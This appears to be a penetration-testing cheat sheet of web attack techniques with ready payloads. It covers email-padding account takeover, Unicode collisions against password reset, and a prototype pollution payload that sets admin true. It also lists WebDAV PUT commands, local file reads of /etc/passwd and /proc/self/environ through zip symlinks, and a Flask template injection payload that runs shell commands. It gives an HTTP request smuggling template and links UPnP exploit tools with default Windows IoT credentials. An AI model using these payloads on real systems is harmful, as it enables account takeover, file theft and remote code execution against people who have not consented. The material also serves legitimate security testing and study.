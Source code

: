 ## Login exploits

	1. While registering account, try to append a space at the end of already registered email to attempt user account takeover(db removes trailing space while inserting however application not).

	2. If email maximum length is fixed and characters after allowed length are stripped, try to register an email having spaces appended till maximum character length + any character at end, eg <admin@htb.com      #>. 

## Unicode Collisions

unicode characters collide with few english characters. This fact can be used to exploit functionalities like - when Forgot password emails validated against lowercase/uppercase value on file, but sent to the provided input email.

```
// https://eng.getwisdom.io/hacking-github-with-unicode-dotless-i/

//uppercase scenario
chr(0x017f).upper()=='S'	# returns True
chr(0x0131).upper()=='I'

// lowercase scenario
chr(0x212A).lower()=='k'
```

## Javascript prototype pollution

Using this bug, we can set new properties of objects. Eg- we can set json object {"user":"test"} new property admin=true if server takes json data and sets attributes using it. 

payload `{"user":"test","__proto__":{"admin":true}}`

```
a={}
b=1
c='ds'

# polluting prototype
a.__proto__.foo='bar'

# All objects have foo property now with value bar
d=new Object
d.foo=='bar'	# true
b.foo=='bar'	# true
```

## WebDAV/PUT method enabled

```
curl -X PUT http://192.168.14.129/dav/test.txt
cadaver http://target/dav
```


## LFI

```
cat /proc/version
cat /etc/issue
cat /proc/self/environ
cat /proc/net/tcp	# listening processes tcp
cat /proc/net/udp	# listening processes udp
```

## Universal Plug and Play UPnP 

* Windows Device Portal - port 8080

	Windows IoT Core devices support a special webserver called the Device Portal. Windows Device Portal runs on port 8080 in Development mode and has default credentials as Administrator and p@ssw0rd (zero).

	RCE can be acheived using the vulnerability in Sirep/WPCon communications protocol included with Windows IoT operating system.

	```
	// git clone the repo
	https://github.com/SafeBreach-Labs/SirepRAT
	```

* CallStranger(CVE-2020-12695) Vulnerability - port 37215

	The vulnerability – CallStranger – is caused by Callback header value in UPnP SUBSCRIBE function can be controlled by an attacker and enables an SSRF-like vulnerability.

	```
	// git clone the repo
	https://github.com/yunuscadirci/CallStranger
	```

## Zip Symlink

If zip files can be uploaded and content is accessible. Try to access local files using this bug. 

```
mkdir test
cd test
ln -s /etc/passwd link.txt
cat link.txt 		# prints content of /etc/passwd
zip --symlinks -r test.zip test/
unzip -l test.zip
```

## Flask Template Injection SSTI

Check with basic template injection payload {{ 7* 7}} and if it evaluates, try to further exploit it. May be it reflects at multiple places, make sure to check them all.

```
https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

{{ config.items() }}	#see config items

#Get subprocess.Popen object using mro(parent) and subclasses
{{ ''.__class__.__mro__[1].__subclasses__() }}

#Execute command
{{‘’.__class__.__mro__[1].__subclasses__()[287]('ls',shell=True,stdout=-1).communicate()}}
```

## Request Smuggling

Pass both content-length and Transfer-Encoding header when posting data to an endpoint. Try CL-TE, TE-CL and TE-TE attack.

Make sure to change connection header to keep-alive. Also use mandatory headers like Host, user-agent and cookie to avoid server discarding the request. For post request, use content-length and content-type header as well. 

```
Remember Transfer encoding uses hex numbers to represent chunk size.

## CL-TE example (CL frontend, TE backend)

Content-Length: 50
Transfer-Encoding:chunked

0

POST /404 HTTP/1.1
Host: 10.10.14.93
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
Cookie: session=abcd

msg=abc
```